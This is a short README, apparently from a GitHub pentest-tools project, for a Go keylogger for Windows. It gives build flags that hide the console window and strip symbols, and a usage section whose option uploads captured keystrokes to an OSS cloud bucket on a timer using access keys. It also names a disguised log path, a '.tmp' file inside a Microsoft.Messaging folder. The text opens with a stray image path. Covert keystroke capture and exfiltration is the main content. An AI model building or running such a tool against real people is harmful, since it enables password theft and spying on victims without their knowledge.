 # keylogger

## Compile

```
go mod download    # Use Proxy If you are in China!
go build -trimpath -ldflags "-s -w -H=windowsgui" key.go
```

### Usage

不加参数直接运行不上传键盘记录内容，为了防止ak泄露，上传oss功能慎用~

```
> keylogger.exe -h

Usage of keylogger.exe:
  -o string
        format: bucketName:accessKeyId:accessKeySecret:endpoint
  -t int
        Upload interval,default: 60min (default 60)
```

## Data

```
C:\Users\<USERNAME>\AppData\Local\Packages\Microsoft.Messaging\360se_temp.tmp
```

### References
https://github.com/mabangde/pentesttools/blob/master/golang/keylogger.go
